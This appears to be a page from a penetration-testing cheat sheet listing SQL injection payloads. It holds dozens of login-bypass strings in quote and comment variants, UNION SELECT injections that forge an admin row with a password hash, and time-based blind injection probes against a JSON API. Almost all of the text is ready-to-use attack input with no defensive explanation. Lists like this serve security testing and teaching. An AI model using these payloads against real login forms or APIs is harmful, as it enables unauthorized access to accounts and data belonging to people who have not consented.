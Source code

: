 ```console
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

### Testing APIs

```console
{"id":"56456"}                   // ok
{"id":"56456 AND 1=1#"}          // ok
{"id":"56456 AND 1=2#"}          // ok
{"id":"56456 AND 1=3#"}          // error
{"id":"56456 AND sleep(15)#"}    // sleep 15 seconds
```

### Payload Examples

```console
SELECT * FROM users WHERE username = 'admin' OR 1=1-- -' AND password = '<PASSWORD>';
```

